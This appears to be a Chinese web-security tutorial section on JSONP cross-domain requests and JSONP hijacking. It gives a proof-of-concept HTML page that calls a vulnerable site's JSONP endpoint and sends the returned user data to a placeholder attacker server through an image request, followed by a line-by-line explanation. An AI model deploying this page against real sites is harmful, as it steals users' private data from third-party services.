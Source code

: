 ## （2）JSONP

JSONP 是 JSON with padding (填充式 JSON 或参数式 JSON)，是一种为了跨域获取资源而产生的一种技术手段。这是一种非官方的协议。  
**JSONP 实现跨域的原理**：  
同源策略限制了不同源的站点通过 ajax 获取信息，但是 web 页面调用 is 文件则不受跨域的影响并且凡是拥有 src 属性的标签都可以跨域请求，如 scriptimg 等标签。JSONP 正是利用这种原理去实现了跨域请求。  
JSONP 劫持从 JSONP 的原理中可以看出这种方式实现了数据的跨域访问，如果网站 B 对网站 A 的 JSONP 请求没有进行安全检查直接返回数据，则网站 B 便存在 JSONP 漏洞，网站 A 利用 JSONP 漏洞能够获取用户在网站 B 上的数据。  
这种漏洞与 CSRF 非常相似，只不过 CSRF 只是发送数据去达到一定的目的，而 JSONP 劫持是为了获取返回的敏感数据

```bash
// jsonp 演示页面
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>JSONP EXP 跨域测试</title>
</head>
<body>
<script>
function test(json){
new Image().src="http://蜜罐服务器IP:10002/" + JSON.stringify(json) // 攻击机准备接收的地址和端口
//alert(JSON.stringify(json))
}
</script>
<script src="有 jsonp 漏洞的网站 url callback=test"></script> 
</body>
</html>
```

下面是对代码的逐行解释：

-   <!DOCTYPE html>：声明这是一个 HTML5 文档。
-   `<html lang="en">`：定义 HTML 文档，并设置文档的根语言为英文。
-   `<head>`：定义文档的头部信息，这些信息不会直接显示给用户。
-   <meta charset="UTF-8">：设置文档的字符集为 UTF-8。
-   <title>JSONP EXP 跨域测试</title>：设置文档的标题。
-   </head>：结束文档头部。
-   `<body>`：定义文档的主体部分，即用户可以在浏览器中看到的内容。
-   `<script>`：定义一个 JavaScript 脚本块。
-   function test(json){：定义一个名为 test 的函数，该函数接收一个名为 json 的参数。
-   new Image().src="[http://蜜罐服务器IP:10002/](http://xn--ip-fr5c86lx7zzi7agol:10002/)" + JSON.stringify(json)：创建一个新的 Image 对象，并设置其源为一个 URL，该 URL 由蜜罐服务器的 IP 地址和端口号以及经过 JSON.stringify 方法处理后的 json 参数组成。这样做的目的是将获取的数据发送到蜜罐服务器。注意：这段代码将数据公开发送，这在实际环境中是非常危险的，因为它可能导致敏感信息的泄露。
-   alert(JSON.stringify(json))：这是一个弹出框，用于显示从存在 JSONP 漏洞的网站获取的数据。这里使用 JSON.stringify(json) 将数据转换为字符串形式以在弹出框中显示。
-   }：结束 test 函数。
-   `<script src="有jsonp漏洞的网站url callback=test"></script>`：通过`<script>`标签引入一个外部 JavaScript 文件。这个文件应该来自一个存在 JSONP 漏洞的网站，其中的 callback 参数指定了处理从该网站返回的数据的函数（在这里是 test 函数）。这意味着当该外部脚本加载时，它会调用 test 函数，并将从该网站获取的数据作为参数传递给它。
-   `</body>`：结束文档主体。
-   `</html>`：结束 HTML 文档。
